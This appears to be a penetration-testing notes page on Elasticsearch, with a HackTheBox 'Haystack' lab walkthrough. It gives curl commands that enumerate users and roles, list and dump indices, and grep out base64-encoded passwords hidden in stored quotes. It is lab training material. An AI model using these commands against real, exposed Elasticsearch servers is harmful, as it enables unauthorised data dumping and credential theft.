 ```yaml
---
description: Elastic search | API | JSON | Database | Relational DBMS
---
```


# Elastic Search

Elasticsearch is an **open-source, distributed search and analytics engine** designed to handle large volumes of structured and unstructured data.

* RESTful interacts via HTTP requests (GET, POST).
* Scalable Data Storage: Distributes data across nodes for horizontal scaling
* Vector Database: Handles AI/ML embeddings for semantic search

It allows users to perform fast full-text searches, real-time analytics, and operations like filtering, aggregation, and visualization. Elasticsearch uses a RESTful API, stores data in a scalable and fault-tolerant way, and supports advanced features like machine learning, vector search, and time-series analysis. It's often used for log analysis, e-commerce search, and business intelligence.

### <mark style="color:yellow;">Example</mark>

You can find this vulnerability in [https://www.hackthebox.com/machines/haystack](https://www.hackthebox.com/machines/haystack).

```bash
#List all roles on the system:
curl -X GET "ELASTICSEARCH-SERVER:9200/_security/role"

#List all users on the system:
curl -X GET "ELASTICSEARCH-SERVER:9200/_security/user"

#Get more information about the rights of an user:
curl -X GET "ELASTICSEARCH-SERVER:9200/_security/user/<USERNAME>"
```

Check [https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch) for more endpoints.

#### Listing indexes (like tables):

```bash
$ curl http://10.10.10.115:9200/_cat/indices?v
health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
```

From the image we got a clue to search for "clave". We can use \_search to do so, which will return 10 entries by default.

```bash
curl -s http://10.10.10.115:9200/quotes/_search | jq .
```

Using `_count` we can check how many entries there are which are 253 entries.

```bash
$ curl -s http://10.10.10.115:9200/quotes/_count | jq .
{
  "count": 253,
  "_shards": {
    "total": 5,
    "successful": 5,
    "skipped": 0,
    "failed": 0
  }
}
```

With `_search?size=253` it returns all entries and \_search?size=1 would return the first, if we only want the hits field we can use `.hits`.

```bash
$ curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq .hits
{
  "total": 253,
  "max_score": 1.0,
  "hits": [
    {
      "_index": "quotes",
      "_type": "quote",
      "_id": "14",
      "_score": 1.0,
      "_source": {
        "quote": "En América se desarrollaron importantes civilizaciones, como Caral (la civilización más antigua de América, la cual se desarrolló en la zona central de Perú), los anasazi, los indios pueblo, quimbaya, nazca, chimú, chavín, paracas, moche, huari, lima, zapoteca, mixteca, totonaca, tolteca, olmeca y chibcha, y las avanzadas civilizaciones correspondientes a los imperios de Teotihuacan, Tiahuanaco, maya, azteca e inca, entre muchos otros."
      }
    }
  ]
}
```

And using we can extract the quotes

```bash
curl -s 'http://10.10.10.115:9200/quotes/_search?size=253' | jq '.hits.hits | .[] |
._source.quote'
```

#### Or using curl

```bash
$ curl -s -X GET "http://10.10.10.115:9200/bank/_search?size=1000" -H 'Content-Type: application/json' -d'
{
    "query": {
        "match_all": {}
    }
}
' | jq . | head -20
{
  "took": 98,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "skipped": 0,
    "failed": 0
  },
  "hits": {
    "total": 1000,
    "max_score": 1.0,
    "hits": [
      {
        "_index": "bank",
        "_type": "account",
        "_id": "25",
        "_score": 1.0,
        "_source": {
          "account_number": 25,
```

Now getting data from quotes and `grep clave` we get 2 quotes back.

```bash
curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'
{
    "query": {
        "match_all": {}
    }
}
' | jq -c '.hits.hits[]' | grep clave

{"_index":"quotes","_type":"quote","_id":"111","_score":1.0,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
{"_index":"quotes","_type":"quote","_id":"45","_score":1.0,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
```
